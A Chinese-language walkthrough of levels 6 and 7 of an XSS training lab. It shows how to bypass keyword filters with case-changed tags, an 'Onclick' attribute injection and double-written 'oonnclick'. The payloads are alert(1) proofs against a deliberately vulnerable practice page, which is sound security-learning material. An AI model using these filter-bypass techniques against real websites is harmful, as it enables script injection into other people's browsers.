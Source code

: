 #### level-6

```
查看网页源代码

<input name=keyword  value="break it out!">

可以发现是用双引号闭合起来的

测试网页对哪些参数进行了过滤
 
输入：' "<script> onclick href img src  

再次查看网页源代码可以看到

输出：<input name=keyword  value="' "<scr_ipt> o_nclick hr_ef img sr_c">

可以发现script、onclick、href、src都不能用 （src不能使用img也无法使用，因为img的xss注入代码是这样的<img src=1 onerror=alert('xss')>）

所以此时我们就需要回顾回顾sql注入的一些绕过方式，像什么双写绕过啊，大小写绕过等

输入：" Onclick="alert(1)

输出：<input name=keyword  value="" Onclick="alert()">

发现并没有被过滤，可以完整的执行

点击输入框即可完成本关

我们再尝试一下用script的方式，因为><并没有被过滤，同样将其中的一些小写字母转换成大写字母

输入："><scRipt>alert(1)</scRipt>

输出：<input name=keyword  value=""><scRipt>alert(1)</scRipt>">

一样可以成功执行通过本关
```

#### level-7

```
查看网页源代码

<input name=keyword  value="move up!">

可以发现是用双引号闭合起来的

测试网页对哪些参数进行了过滤
 
输入：' "<script> onclick href img src  

再次查看网页源代码可以看到

输出：<input name=keyword  value="' "<> click  img ">

可以发现script、onclick、href、src都不能使用，其中的script、href、src、onclick中的on甚至被删了

那我们就可以猜想它有可能只删了一次，不会删两次，所以这里我们使用双写绕过的方式

输入：" oonnclick="alert(1)

输出：<input name=keyword  value="" onclick="alert(1)">

点击输入框即可完成本关

```